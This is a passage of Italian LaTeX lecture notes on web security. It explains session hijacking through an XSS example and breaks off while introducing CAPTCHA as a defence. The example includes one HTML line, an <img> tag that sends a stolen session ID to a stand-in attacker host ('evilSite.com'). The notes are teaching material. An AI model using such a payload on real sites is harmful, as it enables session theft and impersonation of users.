 Se il sito mantiene attivo il session ID a lungo (per esempio per non dover ripetere il login), un malintenzionato ha più tempo per ``rubare'' il session ID.

\subsection{Session hijacking}

Il \textbf{session hijacking} (dirottamento della sessione) è il furto del session ID di un utente collegato in quel momento, per operare al suo posto (ad esempio per accedere a dati o a sezioni riservate).

Esempio di attacco: il sito \texttt{myPoorSite.com} è vulnerabile a attacchi XSS e subisce un'iniezione di codice JavaScript che:

\begin{itemize}
    \item Legge il session ID (\texttt{sID}) nel session cookie (i cookies sono accessibili da JavaScript tramite l'oggetto \texttt{document.cookie}).
    \item Inserisce un'immagine ``finta'':
    \begin{lstlisting}[language=HTML5]
<img src=http://evilSite.com/badScript.php?id=sID>
    \end{lstlisting}
\end{itemize}

Il browser contatta il sito \texttt{evilSite.com} (in particolare lo script \texttt{badScript.php}), inviandogli come parametro il session ID, che può essere usato per effettuare richieste apparentemente legittime al sito \texttt{myPoorSite.com} ``in nome dell'utente legittimo''.

\section{Difese: test audiovisivi}

Per cercare automaticamente le falle di un sistema vengono utilizzati programmi che effettuano un'analisi automatica dei punti vulnerabili (possono essere usati sia per intrusione, sia per la ricerca preventiva di possibili falle di sicurezza).

Un esempio di difesa contro gli strumenti di analisi automatica e contro attacchi in fase di autenticazione con metodo brute force è il \textbf{CAPTCHA} (Completely Automated Public Turing test to tell Computers and Humans Apart).

\subsection{Caratteristiche del CAPTCHA}

